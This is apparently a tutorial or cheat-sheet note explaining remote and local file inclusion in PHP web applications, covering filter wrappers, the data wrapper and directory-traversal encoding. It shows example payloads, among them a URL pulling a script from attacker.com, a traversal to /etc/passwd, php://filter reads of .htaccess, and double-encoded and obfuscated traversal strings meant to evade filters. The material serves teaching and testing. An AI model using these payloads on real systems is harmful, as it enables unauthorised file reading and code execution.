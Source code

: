 # Remote File Inclusion

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.

Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like include.php?page=http://attacker.com/exploit.php, an attacker can replace the URL with a path to a malicious script.

# Local File Inclusion

Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like include.php?page=../../../../etc/passwd.

# RFI vs LFI Exploitation Process

![51fca7adb2f8deb2d2bd3a83dc4d0c00](https://github.com/user-attachments/assets/142a7865-0629-4fb0-ba35-ad9f97715515)

# PHP Wrappers

PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

|Payload | Output
|:-|:-
|php://filter/convert.base64-encode/resource=.htaccess |UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz
|php://filter/string.rot13/resource=.htaccess |ErjevgrRatvar ba Bcgvbaf -Vaqrkrf
|php://filter/string.toupper/resource=.htaccess |REWRITEENGINE ON OPTIONS -INDEXES
|php://filter/string.tolower/resource=.htaccess |rewriteengine on options -indexes
|php://filter/string.strip_tags/resource=.htaccess |RewriteEngine on Options -Indexes
|No filter applied |RewriteEngine on Options -Indexes

# Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The data:// wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code.

# Base Directory Breakout

Encoding transforms characters into a different format. In LFI, attackers commonly use URL encoding (percent-encoding), where characters are represented using percentage symbols followed by hexadecimal values. For instance, ../ can be encoded or obfuscated in several ways to bypass simple filters.

* Standard URL Encoding: ../ becomes %2e%2e%2f
* Double Encoding: Useful if the application decodes inputs twice. ../ becomes %252e%252e%252f
* Obfuscation: Attackers can use payloads like ....//, which help in avoiding detection by simple string matching or filtering mechanisms. This obfuscation technique is intended to conceal directory traversal attempts, making them less apparent to basic security filters.

